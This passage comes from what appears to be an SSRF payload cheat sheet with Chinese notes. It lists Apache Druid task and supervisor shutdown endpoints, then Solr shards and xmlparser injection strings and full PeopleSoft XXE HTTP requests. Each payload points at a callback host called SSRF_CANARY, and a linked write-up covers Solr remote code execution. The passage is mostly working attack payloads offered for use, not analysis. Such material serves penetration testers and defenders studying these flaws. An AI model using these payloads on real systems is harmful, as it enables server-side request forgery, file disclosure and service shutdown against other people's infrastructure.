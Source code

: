 	/druid/indexer/v1/task/{taskId}/shutdown
	/druid/indexer/v1/datasources/{dataSource}/shutdownAllTasks
	关闭Apache Druid Overlords的supervisors 
	/druid/indexer/v1/supervisor/terminateAll
	/druid/indexer/v1/supervisor/{supervisorId}/shutdown
 ###### Apache Solr
  	默认绑定端口：8983
	/search?q=Apple&shards=http://SSRF_CANARY/solr/collection/config%23&stream.body={"set-property":{"xxx":"yyy"}}
	/solr/db/select?q=orange&shards=http://SSRF_CANARY/solr/atom&qt=/select?fl=id,name:author&wt=json
	/xxx?q=aaa%26shards=http://SSRF_CANARY/solr 
	/xxx?q=aaa&shards=http://SSRF_CANARY/solr
	Solr XXE (2017)
	/solr/gettingstarted/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://SSRF_CANARY/xxx"'><a></a>'
	/xxx?q={!type=xmlparser v="<!DOCTYPE a SYSTEM 'http://SSRF_CANARY/solr'><a></a>"}
	通过 dataImportHandler 进行 RCE
	https://github.com/veracode-research/solr-injection#3-cve-2019-0193-remote-code-execution-via-dataimporthandler
 ###### PeopleSoft
  	https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce
	XXE #1
	POST /PSIGW/HttpListeningConnector HTTP/1.1
	Host: website.com
	Content-Type: application/xml
	...

	<?xml version="1.0"?>
	<!DOCTYPE IBRequest [
	<!ENTITY x SYSTEM "http://SSRF_CANARY">
	]>
	<IBRequest>
	   <ExternalOperationName>&x;</ExternalOperationName>
	   <OperationType/>
	   <From><RequestingNode/>
	      <Password/>
	      <OrigUser/>
	      <OrigNode/>
	      <OrigProcess/>
	      <OrigTimeStamp/>
	   </From>
	   <To>
	      <FinalDestination/>
	      <DestinationNode/>
	      <SubChannel/>
	   </To>
	   <ContentSections>
	      <ContentSection>
	         <NonRepudiation/>
	         <MessageVersion/>
	         <Data><![CDATA[<?xml version="1.0"?>your_message_content]]>
	         </Data>
	      </ContentSection>
	   </ContentSections>
	</IBRequest>
	XXE #2
	POST /PSIGW/PeopleSoftServiceListeningConnector HTTP/1.1
	Host: website.com
	Content-Type: application/xml
	...
